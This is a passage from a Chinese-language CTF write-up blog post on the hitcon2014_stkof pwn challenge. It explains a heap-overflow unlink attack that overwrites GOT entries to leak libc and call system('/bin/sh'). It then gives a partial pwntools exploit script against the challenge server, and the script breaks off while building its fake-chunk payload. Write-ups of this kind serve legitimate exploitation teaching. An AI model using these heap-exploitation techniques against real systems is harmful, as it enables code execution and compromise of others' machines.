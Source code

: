 ```yaml
---
title: buuctf-pwn write-ups (9)
date: 2023-02-28 22:12:00
categories:
- write-ups
- buuctf 系列
---
```

# buu067-hitcon2014_stkof
简单分析发现程序中开了一个很大的数组在bss段中，可以申请很多很多堆块，然后在bss段保存它们的地址。这道题不能打印有效信息，但能够产生任意长度的堆溢出，因此考虑利用方式：unlink。
利用方式请见：[我的unlink笔记](https://blog.csdn.net/qq_54218833/article/details/123407435)

经过调试发现，unlink可以进行。
![](1.png)
我们可以在此之后将bss段中的地址改成got表地址，然后将got表中free函数的地址改写为printf的plt地址，这样我们就可以实现任意地址读了。读取到libc地址然后将free.got改为system地址，释放一个存有'/bin/sh'的chunk即可。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27603)
elf = ELF('./pwn')

chunks = 0x602140

def add_chunk(size):
    io.sendline(b'1')
    io.sendline(str(size).encode())

def write_chunk(index, size, content):
    io.sendline(b'2')
    io.sendline(str(index).encode())
    io.sendline(str(size).encode())
    io.send(content)

def delete_chunk(index):
    io.sendline(b'3')
    io.sendline(str(index).encode())

def feedback(index):
    io.sendline(b'4')
    io.sendline(str(index).encode())

add_chunk(0x80) # chunk 0
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 1
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 2
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 3
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 4
io.recvuntil(b'OK\n')
payload = p64(0x10)
payload += p64(0x81)
payload += p64(chunks + 8*2 - 0x18)
payload += p64(chunks + 8*2 - 0x10)
payload += cyclic(0x60)
payload += p64(0x80)
```
